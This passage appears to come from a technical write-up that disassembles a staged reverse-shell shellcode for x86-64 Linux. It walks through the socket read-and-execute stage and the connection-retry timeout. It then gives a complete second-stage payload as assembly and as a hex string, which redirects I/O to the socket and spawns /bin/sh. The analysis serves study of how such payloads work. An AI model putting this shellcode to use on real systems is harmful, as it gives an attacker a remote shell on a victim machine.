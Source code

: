```
7b: 48 85 c0                test   rax,rax
7e: 78 ed                   js     0x6d
80: ff e6                   jmp    rsi 
```
It will start to read from the file descriptor of the socket to the buffer reserved by `mmap` before. If this is a success, it will execute the payload sent through from the attacker machine.

The rest of the code corresponds to a timeout:
```
50: 49 ff c9                dec    r9
53: 74 18                   je     0x6d
55: 57                      push   rdi
56: 6a 23                   push   0x23
58: 58                      pop    rax
59: 6a 00                   push   0x0
5b: 6a 05                   push   0x5
5d: 48 89 e7                mov    rdi,rsp
60: 48 31 f6                xor    rsi,rsi
63: 0f 05                   syscall
65: 59                      pop    rcx
66: 59                      pop    rcx
67: 5f                      pop    rdi
68: 48 85 c0                test   rax,rax
6b: 79 c7                   jns    0x34
```
We will try 10 times to do the connection, with a `nanosleep` between the different attempts. If we are still not able to connect, the program exits.

##### Send payload
To get the payload to send to the staged payload, I reused a part of the stageless payload:
```
0:  6a 03                   push   0x3
2:  5e                      pop    rsi
3:  48 ff ce                dec    rsi
6:  6a 21                   push   0x21
8:  58                      pop    rax
9:  0f 05                   syscall
b:  75 f6                   jne    0x3
d:  6a 3b                   push   0x3b
f:  58                      pop    rax
10: 99                      cdq
11: 48 bb 2f 62 69 6e 2f    movabs rbx,0x68732f6e69622f
18: 73 68 00
1b: 53                      push   rbx
1c: 48 89 e7                mov    rdi,rsp
1f: 52                      push   rdx
20: 57                      push   rdi
21: 48 89 e6                mov    rsi,rsp
24: 0f 05                   syscall
```
This part of the payload redirects everything to the socket, and run `/bin/sh`. In hexadecimal, this payload is `\x6A\x03\x5E\x48\xFF\xCE\x6A\x21\x58\x0F\x05\x75\xF6\x6A\x3B\x58\x99\x48\xBB\x2F\x62\x69\x6E\x2F\x73\x68\x00\x53\x48\x89\xE7\x52\x57\x48\x89\xE6\x0F\x05`. It is not a problem that this payload contains a NULL byte because the staged payload use `read` function to get the payload.
